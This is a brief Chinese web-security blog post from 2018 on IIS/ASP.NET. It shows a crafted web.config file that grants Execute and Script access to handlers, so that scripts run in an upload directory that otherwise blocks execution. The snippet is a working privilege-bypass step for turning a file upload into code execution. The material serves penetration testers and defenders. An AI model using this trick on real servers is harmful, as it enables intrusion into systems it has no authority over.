 ```yaml
---
title: "Web.config 突破权限限制"
date: 2018-07-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['asp.net']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



在一个可读写的目录里无法执行脚本, 通过上传特殊的 `web.config` 文件突破限制.

<!--more-->

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Write, Execute, Script" />
    </system.webServer>
</configuration>
```